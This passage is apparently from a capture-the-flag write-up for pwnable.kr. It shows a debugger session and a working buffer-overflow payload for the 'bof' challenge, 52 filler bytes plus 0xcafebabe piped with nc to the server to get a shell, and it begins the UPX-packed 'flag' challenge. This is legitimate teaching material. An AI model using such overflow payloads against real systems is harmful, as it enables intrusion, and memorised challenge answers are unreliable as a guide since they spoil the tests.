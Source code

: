 ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "bof", stopped 0x56555654 in func (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x56555654 → func()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/x $ebp+8
0xffffd370:     0x61616161
gef➤
```

Ahah! we did. Now we use Metasploit's pattern_create and pattern_offset to determine the offset and we get: 52.

So our payload is gonna be : 52 x 'a' + 0xcafebabe. (little endianess reminder :) )

```
[kin@natsukashii pwnable.kr]$ python2 -c "print 'a'*52+'\xbe\xba\xfe\xca'" > payload
[kin@natsukashii pwnable.kr]$ cat payload - | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
```

We get flag !!

# flag

Let's get started on flag.



```
[kin@natsukashii pwnable.kr]$ ./flag
I will malloc() and strcpy the flag there. take it.
[kin@natsukashii pwnable.kr]$ file flag
flag: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header
```

Upon initial analysis we see two things:

- That there are no section headers. A stripped binary, weird :/
- It runs malloc then strcmp.

Running strings -n 5 (to eliminate all strings smaler than 5 bytes) i stumble upon a interesting string : "This file is packed with the UPX executable packer http://upx.sf.net"
This file has been packed using upx ! So we can't really use ltrace/strace on it until we unpack it.

What is upx? What does packed mean ?

Packing a binary is like compressing it. And upx is simply a tool to achieve that.

So we install upx on our system and run the following to decompress.

```